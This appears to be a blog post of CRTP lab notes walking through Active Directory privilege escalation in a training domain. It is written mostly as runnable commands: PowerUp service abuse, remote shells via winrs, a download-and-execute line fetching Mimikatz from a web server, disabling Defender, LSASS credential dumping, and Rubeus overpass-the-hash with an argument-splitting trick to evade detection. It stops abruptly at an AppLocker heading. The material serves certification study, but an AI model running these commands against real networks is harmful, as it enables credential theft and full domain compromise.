 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## 1. Local Privilege Escalation

 In Active Directory Environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

 There are various ways of locally escalting privilege on Windows:
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

 We can use below tools for complete coverage:
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## 2. Check for any privilege escalation path - PowerUp

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

```bash
#Check for any priviliege escalation path
Invoke-AllChecks
```

![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

```bash
#Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result1.png){: .w-75 .shadow .rounded-10 w='1300' h='800' }

Now, our user is a local admin !

## 3. Identify any machine in the domain where our user has local administrative - Find-PSRemotingLocalAdminAccess.ps1

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 


```bash
#Identify a computer within the network domain where the current user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```

We can connect to the machine who has the local administrative access by using winrs

```bash
winrs -r:dcorp-adminsrv cmd

#Checking the username and computername in the remote winrs session
set username
set computername
```

We can also use PowerShell Remoting

```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## 4. Identify a machine in the domain where a Domain Admin session is available - PowerView

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.

```bash
Find-DomainUserLocation
```

## 5. Extract Credentials from LSASS - Invoke Mimikatz

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Check if we can run commands on dcorp-mgmt using PowerShell remoting

```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```

Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin. This script is to downloads and executes the Invoke-Mimi.ps1 that is hosted in my web server.

```bash
 iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Then, we need to bypass the AMSI using our [script](https://beardenx.github.io/posts/Bypass-AMSI-Like-a-King/). OR

we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt


```bash
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
```

## 6. Using OverPass-the-Hash - Rubeus

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Run the below commands from an elevated shell on the student VM to use Rubeus.

```bash
ArgSplit.bat

#Run the above commands in the same command prompt session
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```


```bash
Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now, we get our TGT Ticket. Try accessing the domain controller from the new process!
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X.

```bash
winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
```

## 7. Domain Admin Escalation using Derivative Local Admin - Find-PSRemotingLocalAdminAccess.ps1


```bash
 Find-PSRemotingLocalAdminAccess
```

Bypassing Applocker
